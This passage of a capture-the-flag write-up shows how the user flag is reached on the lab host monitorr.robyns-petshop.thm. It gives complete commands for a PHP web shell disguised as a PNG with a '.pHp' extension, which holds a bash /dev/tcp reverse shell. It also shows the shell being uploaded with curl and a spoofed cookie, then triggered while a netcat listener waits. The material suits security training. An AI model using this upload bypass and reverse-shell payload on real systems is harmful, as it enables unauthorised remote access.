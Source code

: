 ### User flag and Root flag :- 

I will be going via curl command.

**User Flag :-**

**Steps :**

1) We will try to inject some php code with magic number in a png file with case insensitive php file extension and later on we will try to upload our php code via `curl` command.
```console 
echo -e $'\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo system("bash -c \'bash -i >& /dev/tcp/VIRTUAL MACHINE IP/443 0>&1\'");' > shell.png.pHp
```

**Interpretation of flags :-**
```console
-e enable interpretation of backslash escapes
```
2) Using `curl` command, we can upload the png file as under:
```console
curl -k -F "fileToUpload=@./shell.png.pHp" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
```
**Output :-**
```console
<div id='uploadreturn'>File shell.png.pHp is an image: <br><div id='uploadok'>File shell.png.pHp has been uploaded to: ../data/usrimg/shell.png.php</div></div>
```
```console
-k, --insecure      Allow insecure server connections when using SSL
     --interface <name> Use network INTERFACE (or address)

-F, --form <name=content> Specify multipart MIME data
     --form-string <name=string> Specify multipart MIME data
     --ftp-account <data> Account data string
     --ftp-alternative-to-user <command> String to replace USER [name]
     --ftp-create-dirs Create the remote dirs if not present
     --ftp-method <method> Control CWD usage
     --ftp-pasv      Use PASV/EPSV instead of PORT

-H, --header <header/@file> Pass custom header(s) to server          
```
**Contents of shell.png.pHp :-**
```console
�PNG
�
<?php echo system("bash -c 'bash -i >& /dev/tcp/VIRTUAL MACHINE IP/443 0>&1'");
```
3) Setup a netcat listener and use curl command once again.
```console
nc -lvnp 443
```
```console
curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/shell.png.php
```
After that curling it you will get a shell.
